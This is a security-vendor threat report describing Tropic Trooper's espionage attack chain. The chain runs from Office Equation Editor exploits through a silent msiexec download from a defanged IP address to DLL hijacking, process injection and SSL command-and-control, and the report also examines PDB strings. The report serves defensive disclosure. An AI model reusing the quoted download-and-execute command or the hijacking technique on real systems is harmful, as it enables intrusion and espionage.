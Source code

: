 



Save to Folio






 Subscribe












Tropic Trooper (also known as KeyBoy) levels its campaigns against Taiwanese, Philippine, and Hong Kong targets, focusing on their government, healthcare, transportation, and high-tech industries. Its operators are believed to be very organized and develop their own cyberespionage tools that they fine-tuned in their recent campaigns. Many of the tools they use now feature new behaviors, including a change in the way they maintain a foothold in the targeted network.

Attack Chain
Figure 1. Attack chain of Tropic Trooper’s operations
Here’s a summary of the attack chain of Tropic Trooper’s recent campaigns:

Execute a command through exploits for CVE-2017-11882 or CVE-2018-0802, security flaws in Microsoft Office’s Equation Editor (EQNEDT32.EXE).
Download an installer package (.msi) and install it on the system by executing the command: /c msiexec /q /i [hxxp://61[.]216[.]5[.]24/in.sys]).
This system configuration file (in.sys) will drop a backdoor installer (UserInstall.exe) then delete itself. The backdoor installer will drop a normal sidebar.exe file (a Windows Gadget tool, a feature already discontinued by Windows), a malicious loader (in "C:\ProgramData\Apple\Update\wab32res.dll"), and an encrypted configuration file. UserInstall.exe will abuse the BITSadmin command-line tool to create a job and launch sidebar.exe.
The malicious loader will use dynamic-link library (DLL) hijacking — injecting malicious code into a process of a file/application — on sidebar.exe and launch dllhost.exe (a normal file). The loader will then inject a DLL backdoor into dllhost.exe.

We also observed malicious documents that don’t need to download anything from the internet as the backdoor’s dropper is already embedded in the document. This, however, doesn’t influence the overall result for the victim.
The backdoor will load the encrypted configuration file and decrypt it, then use Secure Sockets Layer (SSL) protocol to connect to command-and-control (C&C) servers.
Tropic Trooper uses exploit-laden Microsoft Office documents to deliver malware to targets. These documents use job vacancies in organizations that may be deemed socio-politically sensitive to recipients. Below is a screenshot of the document used in their latest campaigns:
Figure 2. Malicious document used by Tropic Trooper
PDB Strings as Context Clues
The MSI file has two program database (PDB) strings inside: one belonging to the MSI file, and another for the backdoor installer (detected by Trend Micro as TROJ_TCDROP.ZTFB).
Figure 3. PDB strings inside the MSI file
The first PDB string has a certain ss2/Projects/MsiWrapper (Project MsiWrapper) in it, which we found to be an open-source application that converts executable setup programs to MSI files. The second PDB string contains Work, House, and TSSL: we can assume this tool belongs to Tropic Trooper’s TSSL project as seen by other researchers. Here it is a new one, as seen in their misspelling of “Horse” to “House” (other reports had the string typed correctly).
Another interesting PDB string we found is - D:\Work\Project\VS\house\Apple\Apple_20180115\Release\InstallClient.pdb. At installation, the MSI file drops three files and creates one hidden directory (UFile) into C:\ProgramData\Apple\Update\, likely as a ruse.
It would then use sidebar.exe to load the malicious wab32res.dll (TROJ_TCLT.ZDFB) through DLL hijacking. This is carried out to evade antivirus (AV) detection, because wab32res.dll is loaded by a benign file.
Figure 4. The installer drops three files into the Apple/Update directory
Figure 5. PDB strings inside the loader file